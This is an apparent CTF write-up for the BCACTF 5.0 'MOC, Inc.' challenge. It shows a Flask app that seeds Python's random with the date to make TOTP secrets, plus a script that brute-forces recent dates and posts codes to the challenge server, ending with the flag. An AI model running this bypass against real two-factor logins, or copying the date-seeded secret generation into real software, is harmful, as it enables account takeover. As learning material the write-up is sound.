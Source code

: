 # CTF Competition: BCACTF 5.0

### CTF Name: MOC, Inc.
**CTF Weight:** 100 points ~ 78 solves

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/c6e6913b-5322-47c5-b0c1-262732fb63ee)


## Writeup:
This challenge requires us to login to the website to get the flag. They have provided us with the username and password or `admin` so all we need to do is find the TOTP (Time-base one time password). Fortunately, they provided the source code `app.py`.

```
from flask import Flask, request, render_template

import datetime
import sqlite3
import random
import pyotp
import sys

random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))

app = Flask(__name__)

@app.get('/')
def index():
    return render_template('index.html')

@app.post('/')
def log_in():
    with sqlite3.connect('moc-inc.db') as db:
        result = db.cursor().execute(
            'SELECT totp_secret FROM user WHERE username = ? AND password = ?',
            (request.form['username'], request.form['password'])
        ).fetchone()

    if result == None:
        return render_template('portal.html', message='Invalid username/password.')

    totp = pyotp.TOTP(result[0])

    if totp.verify(request.form['totp']):
        with open('../flag.txt') as file:
            return render_template('portal.html', message=file.read())

    return render_template('portal.html', message='2FA code is incorrect.')

with sqlite3.connect('moc-inc.db') as db:
    db.cursor().execute('''CREATE TABLE IF NOT EXISTS user (
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        totp_secret TEXT NOT NULL
    )''')
    db.commit()

if __name__ == '__main__':
    if len(sys.argv) == 3:
        SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

        with sqlite3.connect('moc-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('  Username:\t' + sys.argv[1])
        print('  Password:\t' + sys.argv[2])
        print('  TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
```


The vulnerability here lies in the seed used to generate the TOTP tokens. The developer based it off of the current time...

```
random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))
```


```
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])
```

This is scary because using time alone to generate the seed is "replayable" as it isn't random at all. I can very easily write a script to get me all the previous days and calculate the TOTP values.

```
import datetime
import random
import requests
import pyotp

URL = "http://challs.bcactf.com:31772/"
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

start_date = datetime.datetime.today() - datetime.timedelta(days=30)

for day_offset in range(31):
    current_date = start_date + datetime.timedelta(days=day_offset)
    current_date_str = current_date.strftime('%Y-%m-%d')

    random.seed(current_date_str)
    totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

    totp = pyotp.TOTP(totp_secret)

    totp_code = totp.now()

    print(f"Date: {current_date_str}, TOTP Secret: {totp_secret}, Code: {totp_code}")

    # Send the POST request with the TOTP code
    payload = {
        'username': 'admin',
        'password': 'admin',
        'totp': totp_code
    }

    response = requests.post(URL, data=payload)
    if "ctf" in response.text:
        print(response.text)
        break
```


![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/a3974690-bf01-4802-8489-eeca664b3793)

The flag is `bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}`
